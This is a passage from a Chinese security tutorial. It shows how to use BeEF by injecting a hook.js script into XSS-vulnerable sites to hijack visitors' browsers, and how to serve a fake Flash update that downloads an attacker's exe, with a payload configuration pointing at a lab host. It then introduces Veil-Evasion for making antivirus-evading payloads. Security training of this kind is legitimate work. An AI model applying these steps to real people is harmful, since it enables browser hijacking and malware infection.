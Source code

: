 连接beef，选择Attacks->BeEF Strike->Start->control BeFF service，配置beef路径，然后点击strat开启beef服务，之后连接beef服务，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/1696e02d005682e8b3d311f2b9650c0dde26e751.jpg)

点击Conect之后填入beef服务地址，用户名，密码就可以连接beef了，这里比较重要的是这个key，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/7c7dadf24d927c77a7c96703a9394b1abeaad731.jpg)

复制这个key，在连接处那里点击key，并将此值填入，就可以正常使用了。

![Alt text](http://drops.javaweb.org/uploads/images/b4cbd281f4cf4c81fc646049c02667f60ce025c6.jpg)

只需要将[http://192.168.74.144:3000/hook.js](http://192.168.74.144:3000/hook.js)插入存在xss的网站，或者以任意方式执行该js，beef上面就可以看到主机上线了，尝试访问[http://192.168.74.144:3000/demos/basic.html](http://192.168.74.144:3000/demos/basic.html)测试：

![Alt text](http://drops.javaweb.org/uploads/images/079226324145bcd5976d0fc9276f0b3229a64371.jpg)

选择一个计算机，点击右键，beef，可以看到其基本信息，右键可以看到beef更多的功能：

![Alt text](http://drops.javaweb.org/uploads/images/8dd6cbf628639c80ddbfe20c53d25f3d0ce18ddf.jpg)

比如社会工程学工具里面的fake flash update，点击此按钮之后输出如下参数配置：

```
"payload_uri":"http://192.168.74.144:81/download/test.exe","image":"http://192.168.74.145:3000/demos/adobe_flash_update.png"

```

如下图：

![Alt text](http://drops.javaweb.org/uploads/images/0721a4bd60464dd58d6b20d1cb39c7f890dc7373.jpg)

之后受害者就会看到一个升级信息：

![Alt text](http://drops.javaweb.org/uploads/images/ccdb3ccb99aa5a6fac61599f4147851e109d63ce.jpg)

点击以后就会下载我们指定的exe。

更多的功能在：

![Alt text](http://drops.javaweb.org/uploads/images/24794f485af996710a131080db4bf70a79513e64.jpg)

这里可以设置自动运行的多个命令，有兴趣的小伙伴可以继续进行研究，具体Beef使用详见：[浏览器利用框架BeEF测试](http://drops.wooyun.org/tips/9929)。

0x02 Veil_evasion
=====

Veil是一款利用Metasploit框架生成相兼容的Payload工具，并且在大多数网络环境中Veil 能绕过常见的杀毒软件，可以使用如下命令下载：

```
root@kali:~# git clone https://github.com/Veil-Framework/Veil-Evasion.git

```
